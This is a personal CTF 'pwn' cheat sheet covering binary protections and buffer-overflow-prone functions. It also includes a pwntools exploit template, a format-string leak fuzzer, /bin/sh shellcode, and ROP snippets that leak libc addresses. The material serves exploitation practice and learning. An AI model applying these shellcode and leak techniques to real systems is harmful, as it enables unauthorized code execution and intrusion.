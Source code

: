 # writeup and some notes 
### (last update 21 December 2023)

## PWN Notes

1. Run `checksec` check the properties of executable of binary security.
	- **Stack Canaries** = a secret value placed on the stack which changes every time the program is started. the stack canary is checked and if it appears to be modified, the program exits immeadiately.
	- **Nx** = stored input or data cannot be executed as code
	- **Address Space Layout Randomization (ASLR)** = The randomization of the place in memory where the program, shared libraries, the stack, and the heap are.
	- **RELRO** = makes binary sections read-only.
2. Function that can lead to buffer overflow
- scanf
- read
- strcat
- fread
- fgets
- sprintf
- strcpy
- gets
- memcpy
- memmove
- strncpy
- snprintf
- strncat
4. Functions in assembly x86
	```shell
	; write the string to stdout  
	mov eax, 4 ; system call for write  
	mov ebx, 1 ; file descriptor for stdout  
	mov ecx, hello ; address of the string  
	mov edx, len ; number of bytes to write  
	int 80h ; invoke the kernel to perform the system call  
	  
	; exit with success  
	mov eax, 1 ; system call for exit  
	xor ebx, ebx ; return code of 0 for success  
	int 80h ; invoke the kernel to perform the system call
	
	; read input
	mov    edx,0x3c # Store 0x3c in edx
	mov    eax,0x3 # syscall for read()
	int    0x80 # invoke syscall
	add    esp,0x3c # esp increase
	``` 
5. Script i normally use 
- Template i got from crypto cat
``` python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)
# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())
# Set up pwntools for the correct architecture
exe = './<file>'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
io = start()
padding = 20

payload = flat(

)

# Save the payload to file
write('payload', payload)
# Send the payload
io.sendline( payload)
# Receive the flag
io.interactive()
```
- fuzzer (%p for address leaking, %s for secrets leaking)
```python
from pwn import *
import os

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./pakmat_burger', checksec=False)
os.environ["SECRET_MESSAGE"] = "YOKO"

# Let's fuzz 100 values
for i in range(1,100):
    try:
        p = process(level='error')
        p.sendlineafter(b': ', '%{}$p'.format(i).encode())
        result = p.recv().split(b' ')
        result = result[1].split(b',')
        leak_char = result[0].ljust(8,b"\x00")
        print(str(i) + ': ' + str(leak_char).strip())
        p.close()
    except EOFError:
        pass
```
6. gdb-pwndbg useful commands
```bash
  run <<< $(python <code>) #input as stdin
  run < ./payload.txt #input as stdin
  run $(python <code>) #input as arg
  canary # check stack canary address
  x/100x $rsp # check 100 bytes in rsp 
```
7. pwntools functions
```python
# example payload converter func
payload = flat(
    b'\x90' * padding,
    esp+20,
    shellcode
)
# shellcode using asm
asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]))
shellcode = asm(shellcraft.cat('flag.txt'))
shellcode = asm(shellcraft.sh())
# getting address
## sample getting address
output = io.recv().split(b'\n')
print("output : ", output)
leak_puts = u64(output[0].ljust(8,b"\x00")) # do this if theres no \n
leak_printf = u64(output[1].ljust(8,b"\x00"))
leak = u64(p.recvline().strip().ljust(8,b'\0')) # do this if theres \n at the end
main = p64(elf.symbols.main)
plt_puts = p64(elf.plt.puts)
got_puts = p64(elf.got.puts)
# for leaking address, pop_rdi(pop rdi, ret; gadget)
secondPayload += pop_rdi + got_puts + plt_puts 
# output format i used for leaking address
leak_puts = u64(output[0].ljust(8,b"\x00"))
leak_printf = u64(output[1].ljust(8,b"\x00"))
print("puts {}".format(str(hex(leak_puts))))
print("printf {}".format(str(hex(leak_printf))))
```

## Pwn Resources
- https://github.com/Crypto-Cat/
- https://zeynarz.github.io/posts/wgmy23/
- https://razvioverflow.github.io/tryhackme/pwn101.html

